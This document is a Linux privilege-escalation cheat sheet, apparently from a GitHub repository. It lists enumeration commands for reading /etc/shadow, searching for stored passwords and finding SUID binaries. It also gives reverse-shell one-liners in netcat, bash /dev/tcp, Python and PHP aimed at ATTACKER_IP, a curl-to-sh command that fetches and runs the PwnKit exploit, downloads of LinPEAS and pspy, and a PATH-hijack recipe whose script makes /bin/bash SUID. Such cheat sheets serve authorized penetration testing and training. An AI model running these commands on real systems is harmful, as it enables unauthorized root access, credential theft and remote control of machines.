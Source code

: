 # Linux Privilege Escalation - Cheat Sheet

### 1. System Information

```bash
uname -a                     # Kernel version
cat /etc/issue               # OS version
cat /proc/version            # Kernel details
cat /etc/os-release          # OS details
id                           # Current user info
whoami                       # Current user
who -a                       # Active sessions
last                         # Login history
ps aux --forest              # Running processes
```

### 2. Searching for Sensitive Files

```bash
find / -name "*pass*" 2>/dev/null    # Search for files containing "pass"
grep -r "password" /etc/ 2>/dev/null # Search for passwords
find / -perm -4000 -type f 2>/dev/null # SUID files
find / -perm -2000 -type f 2>/dev/null # SGID files
find / -user root -perm -4000 -exec ls -la {} + 2>/dev/null # Root SUID files
find /home -type f -name '.*history' 2>/dev/null # Command history files
```

### 3. Permissions and Users

```bash
sudo -l                         # Check sudo privileges
cat /etc/passwd                 # List users
cat /etc/shadow                 # Hashed passwords (if accessible)
cat /etc/group                  # List groups
getent passwd                    # User info
getent group                     # Group info
ls -la /root/                    # Access root home
```

### 4. Cron Jobs

```bash
ls -la /etc/cron*                # List cron jobs
cat /etc/crontab                 # Global crontab content
find / -type f -iname "*cron*" 2>/dev/null # Search for cron jobs
systemctl list-timers --all      # Check systemd timers
```

### 5. Services and Processes

```bash
netstat -tulpn                   # Listening services
ss -tulpn                        # Alternative to netstat
ps aux | grep root               # Processes running as root
ps -ef | grep apache             # Apache processes
systemctl list-units --type=service --all # Active/inactive services
```

### 6. Logs and Emails

```bash
ls -lah /var/log/                # List logs
cat /var/log/auth.log            # Authentication logs
cat /var/log/syslog              # System logs
cat /var/spool/mail/*            # Emails
```

### 7. Common Service Paths

```bash
/etc/passwd
/etc/shadow
/etc/group
/etc/cron.d/
/etc/cron.daily/
/etc/cron.hourly/
/etc/cron.weekly/
/etc/cron.monthly/
/var/spool/cron/
/var/spool/cron/crontabs/
/etc/systemd/system/
/usr/lib/systemd/system/
```

### 8. Reverse Shells

```bash
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT  # Netcat (if -e is supported)
nc -c bash ATTACKER_IP ATTACKER_PORT       # Netcat alternative
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1  # Bash reverse shell
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",ATTACKER_PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'  # Python3 reverse shell
php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'  # PHP reverse shell
```

### 9. Exploitation & Enumeration Tools

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh  # Run LinPEAS

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy64
chmod +x pspy64 && ./pspy64  # Run pspy to monitor processes

#if vulnerable to Pwnkit
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### 10. Practical Exploitation

<details>

<summary>SUID Executables</summary>

If you have a custom executable that has SUID, look if you can't find relative paths

[https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)

```
strace -f ./executable 2>&1 | grep -iE "open|access|exec|execve"
```

malicious bash file if you find a relative path:

```
#!/bin/bash
/usr/bin/chmod u+s /bin/bash
/usr/bin/echo Done
```

Change path variable with the place you created you bash file:

```
export PATH=/home/user:$PATH
```

once you run the SUID file, `bash -p`

</details>
